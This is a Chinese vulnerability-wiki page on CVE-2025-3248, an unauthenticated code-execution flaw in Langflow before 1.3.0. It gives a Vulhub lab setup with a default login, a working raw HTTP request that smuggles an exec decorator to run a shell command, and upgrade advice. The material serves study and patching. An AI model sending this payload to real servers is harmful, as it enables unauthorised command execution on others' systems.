


# Langflow code API 未授权远程代码执行漏洞 CVE-2025-3248

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Vulhub环境缺具体目录或compose链接
- raw HTTP包含额外无说明随机JSON键与固定Content-Length，模板需去噪或解释
- 代码块缺http/json/shell语言；环境登录凭据应明确仅靶场示例
- source仅仓库级，原文路径/提交及来源层次需补

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Langflow 是一个流行的开源 AI 工作流可视化工具，允许用户通过 Web 界面拖拽式构建基于 Python 的智能体和数据处理流程。

在 1.3.0 版本之前，Langflow 存在一个严重的未授权远程代码执行漏洞（CVE-2025-3248）。/api/v1/validate/code 接口原本用来校验用户提交的 Python 代码是否合法，其内部通过 ast 解析代码后，使用 exec 执行所有函数定义。然而，Python 的装饰器和默认参数表达式也会在函数定义时被执行，攻击者可以通过精心构造的装饰器或默认参数，在未授权的情况下实现任意代码执行。

参考链接：

- https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/
- https://github.com/langflow-ai/langflow/releases/tag/1.3.0
- [langflow-ai/langflow#6911](https://github.com/langflow-ai/langflow/pull/6911)

## 漏洞影响

```
Langflow < 1.3.0
```

## 环境搭建

Vulhub 执行如下命令启动 Langflow 1.2.0 漏洞环境：

```shell
docker compose up -d
```

服务启动后，Web 界面可通过 `http://your-ip:7860` 访问。你可以通过默认账号 `administrator:vulhub` 登录管理后台。




## 漏洞复现

直接向 `/api/v1/validate/code` 接口发送包含恶意装饰器的 Python 函数定义，即可来实现远程命令执行：

```http
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Content-Type: application/json
Content-Length: 125

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass","a7fb98s8pvr":"="}
```




## 漏洞修复

升级至 Langflow 1.3.0 版本： https://github.com/langflow-ai/langflow/releases/tag/1.3.0


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
